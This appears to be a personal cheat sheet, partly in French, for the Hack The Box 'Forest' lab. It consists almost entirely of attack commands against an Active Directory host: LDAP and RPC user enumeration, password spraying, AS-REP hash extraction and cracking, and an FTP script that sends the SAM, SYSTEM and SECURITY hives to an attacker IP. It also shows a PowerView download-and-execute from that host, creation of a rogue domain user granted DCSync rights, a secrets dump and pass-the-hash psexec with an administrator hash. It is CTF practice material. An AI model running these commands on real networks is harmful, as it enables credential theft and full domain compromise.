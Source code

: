 # Forest Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

sleep300; nmap -p- -oA fullforst 10.10.10.161

smbclient -L 10.10.10.161

ldapsearch -h 10.10.10.161 -x 

ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" > ldap-anonymous.out

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i samaccountname

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i userPrincipalName

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' | grep -i pwdLastSet

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=Person)' samaccountname userPrincipalName pwdLastSet

> google pwdLastSet ldap to human

https://www.epochconverter.com/ldap

### transformer les commandes en une liste clean de users et mails :

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=User)' sAMAccountName | grep sAMAccountName | awk '{print $2}' > userlist.ldap

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" '(objectClass=User)' userPrincipalName | grep userPrincipalName | awk '{print $2}' > listmail.ldap

rpcclient -U '' -N 10.10.10.161

enumdomusers

queryusergroups 0x47b

querygroup 0x47c

queryuser svc-alfresco


### recuperer la policy des passwords de l'AD

crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''

crackmapexec smb 10.10.10.161 --pass-pol -u 'user.lst' -p 'passwd.lst'

password spray avec crackmapexec

crackmapexec smb 10.10.10.161 -u 'user.lst' -p 'passwd.lst'

/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/       :white_check_mark:

/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/ -format hashcat

hashcat --example-hashes | grep -i krb

hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt # ippsec ajoute -r rules/InsidePro-PasswordsPro.rule essaye de comprendre pk


# ${{\color{purple}Initial Foothold}}\ $


crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice' --shares

#Ici j'aurai pu try un gpp decrypt regarder ce que c'est
# le port 5985 est important c'est Win-RM (powershell remoting)

locate evil-winrm
/usr/bin/evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161

# ${{\color{purple}Exploitation}}\ $

# ${{\color{purple}Privilege Escalation}}\ $

find . | grep exe$
impacket-smbserver idk $(pwd) -smb2support -user user -password idkazewxc123
$pass = convertto-securestring 'idkazewxc123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('ippsec', $pass)
New-PSDrive -PSProvider FileSystem \\10.10.16.5


systemctl restart pure-ftpd

echo 'open 10.10.16.5 21'> ftp.txt
echo 'USER offsec'>> ftp.txt
echo 'lab'>> ftp.txt
echo 'bin'>> ftp.txt
echo 'PUT C:\windows\system32\config\SYSTEM'>> ftp.txt
echo 'PUT C:\windows\system32\config\SAM'>> ftp.txt
echo 'PUT C:\windows\system32\config\SECURITY'>> ftp.txt
echo 'bye'>> ftp.txt

ftp –v –n –s:ftp.txt 
systemctl stop pure-ftpd

------------------------------------------
New-PSDrive -Name ippsec4 -PSProvider FileSystem -Root \\10.10.16.5\test
cd ippsec4:
/usr/share/doc/python3-impacket/examples/smbserver.py test /mnt/share -smb2support

Bloodhound:
si il y a une install de bloodhound delet :
rm /usr/share/neo4j/data/dbms/auth
neo4j console
neo4j password : sparta-castro-union-labor-pluto-9066

./BloodHound --no-sandbox
.\SharpHound.exe -c all

Bloodhound search :
-Mark User as Owned
-search for Shortest Path from Owned Principals

net user evil evil123 /add /domain
net group "Exchange Windows Permissions"
net group "Exchange Windows Permissions" /add evil

IEX(New-Object Net.WebClient).downloadString('http://10.10.16.5:8080/PowerView.ps1')
$pass = convertto-securestring 'evil123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\evil', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity evil -Rights DCSync

/usr/bin/impacket-secretsdump htb.local/evil:evil123@10.10.10.161
crackmapexec smb 10.10.10.161 -u 'administrator' -H 32693b11e6aa90eb43d32c72a07ceea6

/usr/bin/impacket-psexec -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161

# ${{\color{purple}Points of Improvement}}\ $

-note ne pas oublier / dans impacket 
/usr/bin/impacket-GetNPUsers -dc-ip 10.10.10.161 -request htb.local/
